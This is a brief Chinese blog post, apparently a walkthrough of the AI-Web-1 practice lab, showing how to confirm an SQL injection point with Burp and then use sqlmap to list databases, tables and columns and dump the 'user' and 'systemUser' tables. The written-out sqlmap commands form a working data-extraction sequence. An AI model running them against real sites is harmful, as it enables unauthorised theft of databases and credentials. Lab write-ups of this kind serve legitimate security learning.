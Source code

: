 ```yaml
---

title: Sqlmap的简单使用
categories: [工具使用, Sqlmap]

---
```


（1）目录/se3reTdir777/存在传参点，BP抓包，单引号测试报错

![image-20240828233149502](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408282331586.png)

![image-20240828233157626](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408282331734.png)

（2）随便提交参数，将数据包内容保存至1.txt

![image-20240828233206580](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408282332663.png)

![image-20240828233212376](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408282332453.png)

（3）--dbs跑数据库

```python
sqlmap -r 1.txt --dbs
```

![image-20240828233221915](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408282332007.png)

（4）-D 指定数据库 --tables跑数据库中的表

```py
sqlmap -r 1.txt -D aiweb1 --tables
```

![image-20240828233231659](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408282332753.png)

（5）--columns 跑出两个表中的段

```py
sqlmap -r 1.txt -D aiweb1 -T user --columns
sqlmap -r 1.txt -D aiweb1 -T systemUser --columns
```

![image-20240828233241514](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408282332607.png)

![image-20240828233250393](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408282332496.png)

（6）--dump 跑出user表和systemUser表中的内容

```python
sqlmap -r 1.txt -D aiweb1 -T user --dump
sqlmap -r 1.txt -D aiweb1 -T systemUser --dump
```

![image-20240828233256825](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408282332916.png)

![image-20240828233306032](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408282333140.png)